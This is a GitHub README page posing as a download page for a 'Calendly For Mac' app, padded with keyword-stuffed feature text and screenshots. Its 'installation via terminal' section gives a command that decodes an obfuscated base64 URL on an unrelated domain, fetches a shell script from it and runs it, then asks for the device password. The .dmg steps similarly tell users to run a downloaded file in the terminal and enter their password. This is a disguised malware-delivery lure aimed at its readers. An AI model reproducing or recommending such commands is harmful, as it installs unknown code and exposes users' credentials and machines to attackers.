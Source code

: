 # Calendly For Mac — Download Now 📅

![logo](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSGD1qEyjIb26qbrLgUIVVr0gEhG2WLBYDFQQ&s)

Calendly For Mac is a powerful scheduling software designed for macOS users, simplifying the process of booking meetings and managing appointments. Streamline your calendar with automated scheduling and integrations. Follow the instructions below to install Calendly on your Mac and enhance your productivity.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/calendly)

If the download button doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install Calendly For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with Calendly

- 📅 **Automated Scheduling**: Schedule meetings effortlessly with customizable availability.
- 🔗 **Calendar Integrations**: Sync with Google Calendar, Outlook, and other platforms.
- 🤝 **Team Collaboration**: Share booking links and coordinate team schedules seamlessly.
- 📊 **Analytics Tracking**: Monitor booking trends and meeting performance.
- 🔒 **Secure Data Handling**: Protect user data with robust encryption.
- 🔔 **Automated Reminders**: Send automatic notifications to reduce no-shows.

## About Calendly

Calendly For Mac is a leading **scheduling software** designed for macOS users, offering an intuitive solution for managing appointments and meetings. Whether you're a freelancer, business owner, or team leader, Calendly streamlines **automated scheduling** by allowing you to set your availability and share booking links with ease. Its **free download** option makes it accessible for macOS users, providing a native experience optimized for productivity.

The software’s **calendar integrations** with tools like Google Calendar, Outlook, and iCal ensure your schedule stays in sync across platforms. Calendly’s user-friendly interface allows you to create customized event types, set buffers between meetings, and automate reminders, making **appointment management** effortless. Its **macOS productivity** focus ensures a seamless experience on your MacBook or iMac, with a design that feels native to macOS.

For teams and professionals, Calendly offers **team collaboration** features, enabling you to coordinate group schedules and share booking links with clients or colleagues. The software’s **analytics tracking** provides insights into booking patterns, helping you optimize your time and improve client interactions. With **secure data handling**, Calendly ensures that sensitive scheduling information is protected, giving you confidence in managing your appointments.

By choosing Calendly For Mac, you gain access to a powerful platform that simplifies **scheduling software** and boosts efficiency. The **free macOS download** allows you to explore features like **automated scheduling** and **calendar integrations** without upfront costs. Join thousands of macOS users who rely on Calendly to manage their schedules and focus on what matters most.

## ✅ Advantages of Calendly

- 🚀 **Effortless Scheduling**: Automate meeting bookings with customizable availability.
- 🔄 **Seamless Integrations**: Sync with Google Calendar, Outlook, and more.
- 👥 **Team Coordination**: Share booking links for efficient team scheduling.
- 📈 **Insightful Analytics**: Track booking trends to optimize your schedule.
- 🔐 **Secure Data Protection**: Safeguard scheduling data with encryption.
- 🔔 **Automated Notifications**: Reduce no-shows with timely reminders.

## 🖼 Preview

![Scheduling Dashboard](https://images.ctfassets.net/k0lk9kiuza3o/748qewdbQH1dPJsjY1uP6v/2abdf0016d386e3057795993be883cd9/Calendly-Teams-Scheduling.png?q=85&fm=webp)
*Manage your schedule with a clean, intuitive dashboard.*

![Event Creation](https://cdn.prod.website-files.com/6706802514ffa549d0bf0b8a/677e118a7c29985ba1b20a63_675d9258550243ce472a3a5d_675b461b1a45b45ad5eaf04f_HLrm6YNdZPmypX7aMF8UwvxwHEMqraGrMdgh1b6C4sNsr8BJQh8ybM2o5_OtFScHLWrgGXHig3lSKMssnOTbx8Issm4fEWXhtCP4NZ5nqHowoVFB1temyD1_wWXwdm8a1Avcjm3ZHx5zn-qZMTRbLK4.png)
*Create customized event types for easy scheduling.*

![Calendar Integration](https://www.siliconrepublic.com/wp-content/uploads/2022/07/Screenshot-2022-07-13-at-11.00.59.png)
*Sync seamlessly with your favorite calendar apps.*

![Booking Interface](https://i.postimg.cc/4yG3kT7Z/calendly-booking.jpg)
*Share booking links for effortless appointment management.*

## 🔍 Tags

Calendly download, calendly, calendly mac, calendly for mac, calendly app, calendly desktop apple calendar, calendly pricing, calendly free, free calendly, my calendly, calendly link, calendly cost
